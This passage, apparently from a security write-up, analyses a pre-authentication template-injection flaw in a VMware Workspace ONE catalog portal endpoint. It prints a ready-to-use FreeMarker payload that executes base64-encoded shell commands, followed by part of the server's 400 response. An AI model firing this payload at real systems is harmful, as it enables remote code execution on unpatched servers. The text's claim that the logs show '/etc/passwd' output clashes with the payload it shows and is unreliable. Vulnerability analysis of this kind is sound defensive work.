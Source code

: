 This information can be used to further analyze the vulnerability and develop appropriate mitigation measures.

As part of the investigation into the vulnerability, a payload was appended to the endpoint **/catalog-portal/ui/oauth/verify?error=&**. The payload is as follows:

```py
deviceUdid=${"freemarker.template.utility.Execute"?new()("bash -c {eval,$({echo,aWQ7dW5hbWUgLWE=}|{base64,-d})}")}"
```

### Breakdown and Analysis of Payload

The payload executed the id command, with the value encoded as base64.

The response to the payload was interesting, as it triggered the vulnerability and resulted in a **status code of 400**. The logs revealed several messages, including the payload, and **two call stacks to /opt/vmware/horizon/workspace/logs/greenbox_web.log**. The exception thrown was com.vmware.endusercatalog.auth.InvalidAuthContextException.

Ironically, this vulnerability can be considered as a PreAuth vulnerability since it can be triggered without authentication and may lead to unauthorized code execution on the server. It is crucial to promptly address such vulnerabilities and take appropriate measures to prevent exploitation by malicious actors.

When the payload is sent to the vulnerable endpoint, the server responds with a status code of 400. The response includes various headers, such as Vary, Set-Cookie, Cache-Control, X-Content-Type-Options, X-XSS-Protection, Strict-Transport-Security, X-Frame-Options, and Content-Type.

The response body is an HTML error page that contains an error message and a link to sign out. The error message states that the request failed and advises the user to contact their IT administrator. Interestingly, the link to sign out includes the payload in its URL, which suggests that the vulnerability is still present and exploitable.

The response also includes a JavaScript snippet that logs messages to the console. These messages reveal that the vulnerability is related to an invalid authorization context and that a login request was received with a particular **tenant code and device ID**. The logs also reveal the output of the **cat /etc/passwd** command, which contains information about the system's user accounts.

```http
HTTP/1.1 400 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Set-Cookie: EUC_XSRF_TOKEN=6386e149-ff55-4a34-b474-30e6c0c62299; Path=/catalog-portal; Secure
Cache-Control: no-cache,private
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000 ; includeSubDomains
X-Frame-Options: SAMEORIGIN
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Mon, 11 Apr 2022 15:03:40 GMT
Connection: close
Content-Length: 3576

<!DOCTYPE HTML>
<html xmlns="http://www.w3.org/1999/html">
<head>
    <title>Error Page</title>
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1"/>
    <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
    <style>
        body {
            background: #465361;
        }

        .error-container {
```